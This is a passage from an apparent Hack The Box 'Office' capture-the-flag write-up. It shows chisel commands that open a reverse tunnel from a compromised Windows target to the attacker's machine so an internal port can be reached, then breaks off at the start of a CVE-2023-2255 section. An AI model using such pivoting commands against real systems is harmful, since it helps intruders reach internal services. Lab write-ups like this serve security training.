 `chisel server -p 9999 --reverse`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/office/image-35.png)

On the target machine, we will run chisel client, forwarding port 8083 to Kali's port 9999:

`.\chisel_windows.exe client 10.10.14.36:9999 R:8083:127.0.0.1:8083`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/office/image-36.png)

Now we can access port 8083 through our Kali's web browser:

`http://127.0.0.1:8083/`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/office/image-37.png)

### CVE-2023-2255

Let's enumerate the website. 

At the bottom of the page, domain name is revealed, which we add to `/etc/hosts`:
